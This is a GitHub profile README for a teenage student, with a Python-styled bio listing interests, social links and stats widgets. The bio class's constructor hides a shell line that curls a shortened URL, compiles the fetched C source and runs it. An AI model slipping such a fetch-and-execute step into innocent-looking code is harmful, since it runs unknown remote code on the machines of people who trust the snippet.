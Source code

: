 <h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&center=true&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;K%CE%B1%CE%BB%CF%89%CF%83%CF%8C%CF%81%CE%B9%CF%83%CE%BC%CE%B1!;%E3%82%88%E3%81%86%E3%81%93%E3%81%9D%EF%BC%81;Croeso!"/> 
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 i'm interested in'           : {'art, *NIX customisation, linux and BSD in general >:)'}
      '- 💼 i am a'                      : {'17 year old high school student'},
      '- 🔭 i’m currently working on'    : {'fixing myself </3'},
      '- 🌱 i’m currently learning'      : {'python', 'javascript', 'GDScript', 'web development', 'godot engine'},
      '- 💬 you ask me about'            : {'linux', 'art', 'games', 'books'}
      '- 👨‍💻 my art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ fun fact'                    : ('i'm a void linux shill :>')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
<br>
<p align="center"><img src="https://cdn.discordapp.com/attachments/784337338209009674/914930936200691722/unknown_2.png"></p>
<p align="center">
<a href = 'https://open.spotify.com/user/vtfldxkkpxf1xi2we3q5gyrx0?si=d623566e51e34185'> <img width = '32px' align= 'center' src="https://camo.githubusercontent.com/15d4e1b8bf3ed25b7131cc93f248f86cc42deaf9e19fdb61aa1ba3b46e0400a5/68747470733a2f2f6564656e742e6769746875622e696f2f537570657254696e7949636f6e732f696d616765732f7376672f73706f746966792e737667"/></a>
<a href = 'https://www.instagram.com/melolorin'> <img width = '32px' align= 'center' src="https://camo.githubusercontent.com/c9dacf0f25a1489fdbc6c0d2b41cda58b77fa210a13a886d6f99e027adfbd358/68747470733a2f2f6564656e742e6769746875622e696f2f537570657254696e7949636f6e732f696d616765732f7376672f696e7374616772616d2e737667"/></a>
<a href = 'melorin#4696/'> <img width = '32px' align= 'center' src="https://camo.githubusercontent.com/79fcdc7c43f1a1d7c175827976ffee8177814a016fb1b9578ff70f1aef759578/68747470733a2f2f6564656e742e6769746875622e696f2f537570657254696e7949636f6e732f696d616765732f7376672f646973636f72642e737667"/></a>
</p>

<br>
  <br>

 ![Lorin's 𝚐𝚒𝚝𝚑𝚞𝚋 𝚐𝚛𝚊𝚙𝚑](https://activity-graph.herokuapp.com/graph?username=melorin4&theme=redical&hide_border=true&area=true)
| ![Lorin's github stats](https://github-readme-stats.vercel.app/api?username=melorin4&show_icons=true&theme=radical)             | ![Lorin GitHub Streak](https://github-readme-streak-stats.herokuapp.com/?user=melorin4&theme=radical)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=melorin4&langs_count=8&theme=radical&layout=compact) | ![Github Stars](https://github-readme-stats.vercel.app/api?username=melorin4&show_icons=true&locale=en&count_private=true&hide_rank=true&custom_title=My%20GitHub%20Stats&disable_animations=true&theme=radical) |
